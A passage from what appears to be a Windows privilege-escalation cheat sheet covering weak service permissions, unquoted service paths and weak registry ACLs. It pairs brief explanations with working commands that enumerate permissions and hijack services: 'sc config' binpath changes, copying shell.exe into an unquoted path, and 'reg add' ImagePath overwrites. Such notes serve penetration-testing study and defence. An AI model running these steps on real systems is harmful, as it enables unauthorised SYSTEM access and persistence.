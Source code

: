 ```powershell
C:\Cas&gt; .\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

Enumerate for user permisson on a service

```powershell
C:\Cas&gt; .\accesschk.exe /accepteula -ucqv &lt;service_name&gt;
```

Then, change service config

```powershell
C:\Cas&gt; sc config &lt;service_name&gt; binpath= "C:\Cas\shell.exe"
```

#### Unquoted Service Path

&gt; In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.
&gt; If we have permission to write a custom file to wither c:\\ or c:\\Program Files or c:\\Program Files\\Unquoted Path Service, then we can exploit this vulnerability to gain elevated privileges.

Enumerate for unquoted service paths

```powershell
C:\Cas&gt; wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
```

Check user permission on folders:

```powershell
C:\Cas&gt; .\accesschk.exe /accepteula -uwdqs users "C:\Program Files\Unquoted Path Service\Common Scripts"
```

```powershell
C:\Cas&gt; copy shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

#### Weak Registry Permissions

&gt; The Windows registry stores entries for each service.
&gt; Since registry entries can have ACLs(access control lists), if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.
&gt; If the permissions for users and groups are not properly set and allow access to the Registry keys for a service, then we can change the service binPath/ImagePath to point to a different executable under their control. When the service starts or is restarted, then our program will execute, allowing the us to gain persistence and/or privilege escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

Check for permission on registry

```powershell
C:\Cas&gt; .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

```powershell
C:\Cas&gt; reg add &lt;weak_registry&gt; /v ImagePath /t REG_EXPAND_SZ /d C:\Cas\shell.exe /f
```
